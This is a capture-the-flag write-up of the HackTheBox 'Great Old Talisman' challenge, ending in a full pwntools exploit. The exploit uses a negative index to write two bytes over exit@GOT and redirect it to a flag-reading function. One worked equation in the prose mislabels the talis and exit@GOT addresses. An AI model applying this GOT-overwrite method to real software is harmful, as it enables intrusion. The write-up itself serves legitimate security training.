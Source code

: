 ```yaml
---
layout: post
author: Jorge Moreno
---
```


This challenge comes from [HackTheBox University CTF 2023: Brains & Bytes](../htb-bb-2023-ctf)

## Challenge Description

---

> Zombies are closing in from all directions, and our situation appears dire! Fortunately, we've come across this ancient and formidable Great Old Talisman, a source of hope and protection. However, it requires the infusion of a potent enchantment to unleash its true power.
> 

Challenge Author(s): w3th4nds \
Category: **Binary Explotation**  
Difficulty: **Very Easy**

## Challenge Solution

---

First, we check the file with ``file`` and ``checksec`` commands:

We can see it is dinamically linked 64-bit binary. With canary (stack protector) and the No eXecute bit so we can’t use shellcode to pwn this challenge.

The first thing we see after executing the vulnerable binary is the following text:

![Untitled](images/great-old-talisman/Untitled.png)

It prompts us for a number 1 or 0. After that it receives an input of 2 bytes from stdin.

Lets begin with with the decompiling.

```c
void main(void)

{
  long in_FS_OFFSET;
  int option;
  undefined8 canary;
  
  canary = *(undefined8 *)(canary + 0x28);
  setup();
  banner();
  printf(
        "\nThis Great Old Talisman will protect you from the evil powers of zombies! (...) \n>> "
        );
  __isoc99_scanf("%d",&option);
  printf("\nSpell: ");
  read(0,talis + (long)option * 8,2);
                    /* WARNING: Subroutine does not return */
  exit(0x520);
}
```

The main function reads from stdin the option and then uses it to store the 2 bytes that we send it.

```c
read(0,talis + (long)option * 8,2);
```

Reads 2 bytes and stores it in the address of ``talis + (option * 8)``. This line is vulnerable to arbitrary write, because as we can see there are not limits inside the integer that we can send to the program. So we could overwrite any address we want with an arbitrary (2 byte long) value. 

In this case we can see that there is also a function called ``read_flag()`` that prints the flag to us.

In the assembly code for ``main()`` function we can see that the next function called right after ``read()`` is ``exit()``

![Untitled](images/great-old-talisman/Untitled%201.png)

With the ``dump qword`` command from ``gdb-pwndbg`` we check the address of ``talis``.

![Untitled](images/great-old-talisman/Untitled%202.png)

And ``read_flag()`` with info fun.

![Untitled](images/great-old-talisman/Untitled%203.png)

We can check the ``exit@GOT`` function with Ghidra:

![Untitled](images/great-old-talisman/Untitled%204.png)

So we could maybe overwrite the exit function last 2 bytes with the bug we saw before.

To do this we have to calculate the offset and get a number that we can send to the program that after being multiplicated by 8 and added to **talis** is the address of **exit.**

``0x404080 - 0x4040a0 = -32``

We know that it multiplicates it by 8 so we can send -4. That way it will store the 2 bytes that we send at ``0x404080 + (-4*8) = 0x4040a0 (exit.got.plt)`` 

Now we send the last two bytes of the ``read_flag()`` function address ``\x5a\x13`` and we can grab our flag.

## Full Script

---

{% highlight python %}
#!/usr/bin/env python3
from pwn import *

exe = context.binary = ELF(args.EXE or './chall', checksec = False)

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:
        return remote("94.237.48.55", 56734)
    #nc 94.237.48.55 56734
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''
continue
'''.format(**locals())

exit_got = 0x404080
talis = 0x4040a0 

# Escribo \x5a\x13 en 0x404080 + (0x404080 - 0x4040a0)
# Le pasamos primero option = -0x20 = -32
# Le pasamos -4 porque el read multiplica option * 8. 
# Le pasamos los 2 bytes de la direccion y lo tira

io = start()

io.sendlineafter(b'>>', b'-4')
io.recvuntil(b':')
io.send(b'\x5a\x13')

io.interactive()
{% endhighlight %}


**FLAG - HTB{th4nk_G0T_w3_h4v3_th15_t4l15m4n}**